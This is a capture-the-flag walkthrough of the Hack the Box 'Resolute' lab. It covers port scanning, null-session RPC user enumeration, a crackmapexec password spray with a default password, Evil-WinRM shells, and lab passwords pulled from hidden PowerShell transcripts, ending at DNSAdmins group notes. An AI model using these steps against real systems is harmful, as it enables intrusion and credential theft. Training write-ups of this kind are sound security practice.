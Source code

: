 # Hack the Box - Resolute

# Enumeration
## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.169 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.169
Host is up (0.19s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49682/tcp open  unknown
49711/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.74 seconds
```


```CSS
▶ nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 10.10.10.169 -oN services.nmap

Nmap scan report for 10.10.10.169
Host is up (0.18s latency).  
                                          
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-05-23 18:13:41Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                                                                                                 
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)                                                        
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m32s, deviation: 4h02m30s, median: 6m31s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2023-05-23T11:13:52-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2023-05-23T18:13:54
|_  start_date: 2023-05-23T17:43:07
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.44 seconds
```

---

## RPC Client
  - Null Session Authentication
```CSS
▶ rpcclient -U "" -N 10.10.10.169
```

  - Enumerate Domain Users
```CSS
rpcclient $> enumdomusers
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d4596127-4b1b-4957-ac1b-c0e30d6cd312)

  - Query Users Info
```CSS
rpcclient $> querydispinfo
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ec7322f6-3ebb-4fb8-8691-c8c92af2dc0e)
The above command return brief information about all the users. An interesting comment for `RID 0x457` is also found.
```CSS
Credentials - marko:Welcome123!
```

  - Query Single User's Info
```CSS
rpcclient $> queryuser 0x1f4
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/56612aa0-fa48-41b2-ad95-e6cd47bf97a5)

---

## SMB
  - Attempt to login with found credentials.
```CSS
▶ crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!' --continue-on-success
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a8ca9538-8a8c-45f6-8263-89df0d2eaeb9)

### Password Spray
  - Create a file containing the list of users found via RPC.
  - Authenticate as any user using the password default password found.
```CSS
▶ vim users.txt

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5] 
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]   
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```
Use within vim to extract the usernames:`%s/user:\[\(.*\)\] rid:\[.*\]/\1/g`

  - Password Spray
```CSS
▶ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8f91e8ba-959b-47e8-bf89-3f0a19668ac7)

```CSS
Credentials- melanie:Welcome123!
```

---

# FootHold
## Evil-WinRM Shell
```CSS
▶ evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e36af976-1ab7-4e1d-80f3-4512e6388fd6)

# Lateral Movement
Use the `-force` option to reveal hidden files and directories.
```CSS
*Evil-WinRM* PS C:\Users\melanie\Documents> cd C:\
*Evil-WinRM* PS C:\> dir -force
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5685fdb2-0738-4a96-93c2-5e87c98c70d9)
A hidden directory `C:\PSTranscripts\ .` is revealed.

This directory further contains a hidden subdirectory `C:\PSTranscripts\20191203\ .` After running the command dir -force again, a hidden file: `C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt .` is revealed.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/89917f19-ef1d-4acc-8abb-1e76588a2b2e)

###  PowerShell Transcription Logging
PowerShell transcription logging is a feature in PowerShell that allows to record and save a transcript of the commands and output in a PowerShell session. It provides a way to capture the entire session, including input, output, and error messages, into a text file for later review and analysis. When transcription logging is enabled, PowerShell will create a log file that contains a record of all the commands executed within the session, along with their corresponding outputs.
```CSS
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5df52d02-73c9-49c0-8a43-a08fbb1dae7a)
```CSS
Credentials- ryan:Serv3r4Admin4cc123!
```

### Evil-WinRM Shell
```CSS
▶ evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ace42197-fb5a-4682-b066-43566ed68308)

Any changes made to the system will have to be completely used within a minute (or less).
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/98675a6a-ba1f-48b2-b67b-e4bc277e37f0)

### Groups (DNSAdmin)
Members of DNSAdmins group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions. By default the DNSAdmins don’t have the ability to start or stop the DNS service, but it’s not unusual for an admin to give this group that privilege.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9e20d82d-2ceb-4239-9718-be3ff15717ca)
